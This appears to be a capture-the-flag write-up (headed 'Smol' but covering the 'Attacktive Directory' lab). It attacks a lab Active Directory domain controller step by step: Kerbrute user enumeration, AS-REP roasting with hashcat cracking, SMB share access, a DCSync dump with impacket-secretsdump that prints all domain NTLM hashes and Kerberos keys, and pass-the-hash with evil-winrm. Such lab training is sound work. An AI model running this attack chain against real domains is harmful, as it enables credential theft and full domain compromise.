# CTF Write-Up: Smol

## 1. Challenge Overview

- **Name:** Attacktive Directory
- **Difficulty:** Medium
- **Category:** AD
- **Description:**  
  99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## 2. Setup

**_`Impacket`_** is a collection of Python classes for working with network protocols. It is a library that developers use to build security tools, but it also comes with a suite of ready-to-use scripts.

- **What it does:** It allows you to "talk" to Windows systems using low-level protocols like SMB, MSRPC, and Kerberos without needing a Windows machine.
- **Common Use:** If you have a password or a hash, you use Impacket scripts (like `psexec.py` or `wmiexec.py`) to remotely execute commands on a target, dump credentials (`secretsdump.py`), or manipulate Kerberos tickets.

**_`BloodHound`_** is an analytical tool (not a library) used to reveal the hidden, often complex relationships within an Active Directory environment.

- **What it does:** It uses graph theory to map out how users, groups, computers, and permissions are connected. It answers the question: "I am a regular user; what is the shortest path of permissions I need to take to become a Domain Admin?"
- **Common Use:** You run a "collector" (SharpHound) on a network to gather data, then you import that data into the BloodHound GUI to visualize attack paths like "User A is a member of Group B, which has Admin rights on Computer C, where a Domain Admin is logged in."

**_`Neo4j`_** is a graph database management system. It is the backend database that powers BloodHound.

- **What it does:** Unlike a traditional spreadsheet-style database (SQL), Neo4j stores data as "Nodes" (entities like Users or Computers) and "Edges" (relationships like `MemberOf` or `HasSession`).
- **Common Use:** You don't usually interact with Neo4j directly during a pentest; instead, you start the Neo4j service so that BloodHound has a place to store and quickly query the massive web of AD connections you've collected.

## 3. Enumeration

**What is NetBIOS?**
NetBIOS (Network Basic Input/Output System) is a legacy service that allows applications on different computers to communicate over a local area network (LAN).

Developed in the 1980s, it wasn't originally a routing protocol; it was just a way for computers to find each other by name (e.g., `OFFICE-PRINTER` or `DESKTOP-01`) rather than by an IP address.

    nmap -sC -sV -p- -T4 --open 10.128.169.188

    Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 21:22 +0200
    Nmap scan report for 10.128.169.188
    Host is up (0.065s latency).
    Not shown: 62218 closed tcp ports (reset), 3291 filtered tcp ports (no-response)
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-30 19:23:21Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
    | Not valid before: 2026-03-29T19:21:40
    |_Not valid after:  2026-09-28T19:21:40
    |_ssl-date: 2026-03-30T19:24:23+00:00; 0s from scanner time.
    | rdp-ntlm-info:
    |   Target_Name: THM-AD
    |   NetBIOS_Domain_Name: THM-AD
    |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
    |   DNS_Domain_Name: spookysec.local
    |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
    |   Product_Version: 10.0.17763
    |_  System_Time: 2026-03-30T19:24:13+00:00
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49672/tcp open  msrpc         Microsoft Windows RPC
    49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49674/tcp open  msrpc         Microsoft Windows RPC
    49678/tcp open  msrpc         Microsoft Windows RPC
    49684/tcp open  msrpc         Microsoft Windows RPC
    49698/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-time:
    |   date: 2026-03-30T19:24:16
    |_  start_date: N/A
    | smb2-security-mode:
    |   3.1.1:
    |_    Message signing enabled and required

### 3.1. What tool will allow us to enumerate port 139/445?

`enum4linux / enum4linux-ng`
This is a wrapper for the Samba tools and is the "go-to" for Linux-based testers targeting Windows/Samba.

- **Command:** `enum4linux -a <target>`
- **What it finds:** Share names, password policies, group memberships, and OS information.

### 3.2. What is the NetBIOS-Domain Name of the machine?

NetBIOS_Domain_Name: `THM-AD`

### 3.3. What invalid TLD (Top-Level Domain) do people commonly use for their Active Directory Domain?

`.local`

## 4. Enumerating Users using Kerberos

**_`Kerbrute`_** is a specialized enumeration and brute-force tool that interacts with the Kerberos protocol (specifically the KDC - Key Distribution Center) rather than LDAP or SMB.

### 4.1. What command within Kerbrute will allow us to enumerate valid usernames?

To enumerate valid usernames using Kerbrute, you use the `userenum` command.



### 4.2. What notable account is discovered? (These should jump out at you)

`svc-admin`

### 4.3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## 5. Abusing Kerberos

`What is ASREPRoasting?`
In a standard Kerberos login, Pre-Authentication is required. This means your computer sends a timestamp encrypted with your password hash to the Domain Controller (DC). The DC decrypts it to prove you are who you say you are before it sends you a Ticket Granting Ticket (TGT).

However, if an account has the attribute "Do not require Kerberos preauthentication" (UF_DONT_REQUIRE_PREAUTH) enabled:

- You (the attacker) send a request (AS-REQ) for a ticket for that username.
- The DC says, "Sure, I don't need proof yet," and sends back an encrypted ticket (AS-REP).
- Part of that ticket is encrypted with the user's password hash. You can now take that "blob" of data home and use a tool like Hashcat or John the Ripper to guess the password until the math matches.

### 5.1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?



`svc-admin`

### 5.2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Based on the Hashcat Examples Wiki and the **$krb5asrep$23$** prefix:
`Kerberos 5 AS-REP etype 23`

### 5.3. What mode is the hash?

`18200`

### 5.4. Now crack the hash with the modified password list provided, what is the user accounts password?

    hashcat -m 18200 hashes.txt Passwords.txt

    $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:215d2f9cf7788a19d7e8b5734612405c$1be16e0d291aba01071037b45de175c163a04b0a6c5ff66566dd420d491072d9ef5b0b3c8db72e9e27fe3c702679362ce3fbe1d67d09418ca0518bcb82a6adae1e4128ac75c2daafd7f2e325526e3044149ce6beb347011a6d1f82a08a0041d848cd740885227498ec878d931ee445fb400f73f71863bca63041f4e3272281d5897c489135d515bfb3aede46616ff4a715fdc06dd93afa9a8036d8f4fb9262189644d5982fc0c7d2995b5c309c8cbaa7789e2baf4f1426e15aedfbb8a4c4ef512614d7c1f67cccaed935b882f6c6e5eaa7805f9e2e8000be527b9600d964e6b88379cf4c28f663dd2d103dd3f9e1e02f3d61:management2005

    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
    Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:215d2f9cf77...2f3d61
    Time.Started.....: Tue Mar 31 00:55:03 2026 (1 sec)
    Time.Estimated...: Tue Mar 31 00:55:04 2026 (0 secs)
    Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
    Guess.Base.......: File (Passwords.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#01........: 77723 H/s (2.88ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 8192/70188 (11.67%)
    Rejected.........: 0/8192 (0.00%)
    Restore.Point....: 4096/70188 (5.84%)
    Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#01...: newzealand -> whitey
    Hardware.Mon.#01.: Util: 60%

User accounts password:
`management2005`

## 6. Back to the basics

### 6.1. What utility can we use to map remote SMB shares?

`smbclient`

### 6.2. Which option will list shares?

`-L`

### 6.3. How many remote shares is the server listing?



`6`

### 6.4. There is one particular share that we have access to that contains a text file. Which share is it?




`backup`

### 6.5. What is the content of the file?



### 6.6. Decoding the contents of the file, what is the full contents?



## 7. Elevating privileges within the domain

**`What is DCSync?`**
DCSync is a technique that mimics the behavior of a Domain Controller (DC). In a healthy Active Directory environment, DCs need to stay in sync with each other. They do this by "replicating" data—sharing updates about users, groups, and, most importantly, password hashes.

An account like backup (in this lab) has been granted specific Replication Permissions. Because it has these rights, it can tell the main Domain Controller: "Hey, I'm a fellow DC. Please sync your database with me."

The Domain Controller, believing the request is legitimate, sends over the requested objects, including the NTLM hashes of every single user in the domain.

### 7.1. What method allowed us to dump NTDS.DIT?



`DRSUAPI` method

`DRSUAPI` stands for the **Directory Replication Service Remote Protocol.**
It is the specific "language" that Windows Domain Controllers use to communicate with each other to keep their databases in sync. When you hear "DCSync," you are essentially hearing about the exploitation of this protocol.

### 7.2. What is the Administrators NTLM hash?

    impacket-secretsdump spookysec.local/backup:backup2517860@10.128.169.188

---

    Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
    spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
    spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
    spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
    spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
    spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
    spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
    spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
    spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
    spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
    spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
    spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
    spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
    spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
    spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
    ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:d75a7a00362e08d751fc8a0e4fb77966:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
    Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
    Administrator:des-cbc-md5:2079ce0e5df189ad
    krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
    krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
    krbtgt:des-cbc-md5:b94f97e97fabbf5d
    spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
    spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
    spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
    spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
    spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
    spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
    spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
    spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
    spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
    spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
    spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
    spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
    spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
    spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
    spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
    spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
    spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
    spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
    spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
    spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
    spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
    spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
    spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
    spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
    spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
    spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
    spookysec.local\paradox:des-cbc-md5:83988983f8b34019
    spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
    spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
    spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
    spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
    spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
    spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
    spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
    spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
    spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
    spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
    spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
    spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
    spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
    spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
    spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
    ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:118922659bb846d3abb8227bcb0f3c22f03c2b59c4105c2ec1171da268431192
    ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:85776bea50eb7075c3fc890641f203f9
    ATTACKTIVEDIREC$:des-cbc-md5:a1a7f10d643132a8
    [*] Cleaning up...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:`0e0363213e37b94221497260b0bcb4fc`:::

### 7.3. What method of attack could allow us to authenticate as the user without the password?

**_`Pass-the-Hash`_** (PtH) is a technique where you authenticate to a remote server using a captured NTLM hash instead of the plaintext password.  
It works because the NTLM protocol uses the hash itself as the "secret" during the challenge-response handshake, so the server never needs to see the original password.  
This allows you to bypass the cracking phase entirely and gain immediate access to systems.

### 7.4. Using a tool called Evil-WinRM what option will allow us to use a hash?

_**evil-winrm** -i 10.128.169.188 -u Administrator `-H` <THE_NTLM_HASH>_



## 8. Flag Submission Panel

### Submit the flags for each user account. They can be located on each user's desktop.

#### svc-admin



#### backup



#### Administrator


